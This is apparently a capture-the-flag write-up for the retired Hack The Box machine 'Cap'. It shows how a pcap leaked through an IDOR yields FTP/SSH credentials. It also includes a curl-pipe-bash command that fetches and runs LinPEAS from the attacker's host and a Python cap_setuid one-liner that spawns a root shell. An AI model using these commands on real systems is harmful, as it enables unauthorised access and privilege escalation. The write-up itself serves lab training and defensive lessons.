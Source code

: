 # Box
Name: Cap
ID: 6 
Difficulty: Easy 
Status: Retired

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM) - CHANGE

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `wireshark`
  - `linPEAS`

## 🎯 Target Environment
- **Ip Address**: 10.10.10.245
- **OS**: Debian GNU/Linux

## 🧠 Recon
Host is blocking pings, returned ports are filtered in first nmap scan:
```bash
nmap 10.10.10.245 
```

## 🔍 Enumeration
1. Ran full port scan which returned 3 open ports: 21,22,80:
```bash
ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
```
2. Investigated found open ports with third nmap scan: 
```bash
nmap -p$ports -Pn -sC -sV 10.10.10.245
```
3. Found the following open ports running services:
```bash
21/tcp ftp
22/tcp ssh
80/tcp http
```

4. Tried to connect via FTP with both anonymous andd default credentials - failed.

5. Opened 10.10.10.245:80 in browser, found **Security Dashboard**:
    - IP Config page
   - Network Status page
   - Option to download a **packet capture** ("Security Snapshot")

6. Downloaded and opened the `1.pcap` in Wireshark — only contained my own traffic.

7. Found an **IDOR vulnerability** by modifying the download URL and downloading `0.pcap` :
```http
http://10.10.10.245/data/0
```
   - This revealed previous user activity.

## 💥 Foothold
Opening the ID 0 capture file in Wireshark revealed **unencrypted FTP traffic**, including credentials:

- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

1. Found credentials allowed access via FTP **and** SSH
```bash
ssh nathan@10.10.10.245
```
```bash
ftp 10.10.10.245
```
## 🔐 Privilege Escalation
1. Hosted LinPEAS on attacker box:
```bash
sudo python3 -m http.server 80
```

2. On the target box, fetched and ran LinPEAS:
```bash
curl http://10.10.14.7/linpeas.sh | bash
```

3. **LinPEAS Discovery: Binary Capabilities**
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

This means: 
-python3.8 can set UID to 0 (root) without being SUID
-Very powerful escalation vector

4. Escalation with Python
Ran the following to spawn a root shell:
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
# root
```

5. Retrieved the flags: 
cat /home/nathan/user.txt
cat /root/root.txt

## 🧼 Cleanup & Lessons
-Removed linpeas.sh
-Logged out of all sessions
- **Key takeaways**:
-The developer may have granted Python this capability to allow a backend process (like the Security Dashboard or packet capture service) to run as root without using a setuid binary — but this introduces a critical security risk.
-cap_setuid allows privilege escalation without the SUID bit
-LinPEAS is excellent at spotting obscure privilege vectors
-IDOR vulnerabilities can leak sensitive network data
-Never trust plaintext protocols like FTP — always inspect pcap files closely
